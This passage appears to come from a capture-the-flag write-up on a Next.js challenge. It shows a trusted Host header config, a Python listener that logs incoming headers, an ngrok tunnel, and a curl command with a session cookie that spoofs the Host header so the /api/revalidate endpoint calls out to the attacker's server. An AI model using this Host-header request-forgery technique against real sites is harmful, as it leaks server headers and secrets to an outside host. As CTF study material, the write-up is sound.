 ```typescript

      // ...
    }

    // ...
  } // ...
}
```

As you can see, if we have the `context.trustHostHeader` enabled, we can send a `HEAD` request to any URL we want by adding an `Host` header.

The `trustHostHeader` is set to `true` by default in the `next.config.js` file.

```javascript
/** @type {import('next').NextConfig} */
const nextConfig =  {
	experimental: {
		trustHostHeader: true
	}
};

export default nextConfig;
```

We will setup a Python server to log every headers received on `HEAD` requests.

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

class LoggingHandler(BaseHTTPRequestHandler):
    def do_HEAD(self):
        for key, value in self.headers.items():
            print(f"{key}: {value}")

        self.send_response(200)
        self.end_headers()

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, LoggingHandler)
    print("Serving on port 8080...")
    httpd.serve_forever()
```

Let's start an [`ngrok`](https://ngrok.com/) instance (`ngrok http 8080`) and grab our public URL, let's say `259b-46-193-4-24.ngrok-free.app` for this example.

Finally, we can send a request to the `/api/revalidate` endpoint with the `Host` header set to our public URL and the `session` cookie set to our session cookie, since auth is required by the middleware for API routes.

```bash
curl https://under-nextruction.fcsc.fr:2213/api/revalidate \
  -b 'session=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InZleGNpdGVkIiwiaWF0IjoxNzQ1MjM4NDUwLCJleHAiOjE3NDUzMjQ4NTB9.Y6BpTLOtsNlBdx6yWdXdZAv3UN2wZFv1iJ2o2Eywy40' \
  -H 'Host: 259b-46-193-4-24.ngrok-free.app'
```
